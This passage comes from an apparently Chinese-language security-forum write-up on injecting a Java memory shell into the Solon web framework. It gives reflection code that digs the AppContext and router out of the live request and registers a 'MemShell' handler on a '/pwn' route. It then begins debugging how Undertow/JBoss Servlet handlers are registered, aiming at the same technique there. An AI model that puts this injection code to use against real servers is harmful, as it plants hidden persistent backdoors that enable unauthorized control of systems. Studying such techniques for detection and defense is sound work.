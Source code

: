 获取RouterDefault和AppContext ，这个可以使用java-object-searcher工具查找

```java
Context ctx \= Context.current();  
Object \_request \= getfieldobj(ctx,"\_request");  
Object request \= getfieldobj(\_request,"request");  
Object serverHandler \= getfieldobj(request,"serverHandler");  
Object handler \= getfieldobj(serverHandler,"handler");  
Object arg$1 \= getfieldobj(handler,"arg$1");  
​  
AppContext appContext \= (AppContext) getfieldobj(arg$1,"\_context");   
RouterDefault \_router \= (RouterDefault) getfieldobj(arg$1,"\_router");
```

第三步，注册

```java
BeanWrap beanWrap \= new BeanWrap(appContext,MemShell.class);  
Method method \= MemShell.class.getDeclaredMethod("pwn");  
Handler newhandler \= new ActionDefault(beanWrap,method);  
\_router.add("/pwn", MethodType.ALL,newhandler);
```

验证：动态注册后访问

![image-20240815123253817](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-6c71658f69c9ea6cf3afe468be1d17ad8f7e7001.png)

JBoss AS中间件
-----------

总会有些老的项目或者某些框架，必须使用 Servlet 的接口。。。Solon 对这种项目，也提供了良好的支持。

当需要 Servlet 接口时，需要使用插件：

- 或者 solon.boot.jetty
- 或者 solon.boot.undertow

这块内容，也有助于用户了解 Solon 与 Servlet 的接口关系。Solon 有自己的 Context + Handler 接口设计，通过它以适配 Servlet 和 Not Servlet 的 http server，以及 websocket, socket（以实现三源合一的目的）：

- 其中 solon.web.servlet ，专门用于适配 Servlet 接口。

调试发现,这里用的是`io.undertow.servlert`的api,即JBoss AS (JBoss Application Server),和常用的不太一样

### Servlet

使用demo3012-web\_servlet进行调试分析，查看这些中间件是如何被注册的，在HeheServlet下个断点，访问对应路径进行调试

![image-20240816175142048](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-fb52865f64c0e0bbec733894f8278fcb4438c750.png)

发现有很多个handleRequest，查看最初始的那个，来到了`io.undertow.servlet.handlers.ServletInitialHandler`

![image-20240816175453732](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-3594b9d5715a6a3be429244103a09489b8c65454.png)

这里的servletRequestContext应该是当前请求的上下文，查看`servletRequestContext.getOriginalServletPathMatch().getServletChain()`

![image-20240816175758744](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-72f9e17d222f452a78d5650748aae529d6cd4cc7.png)
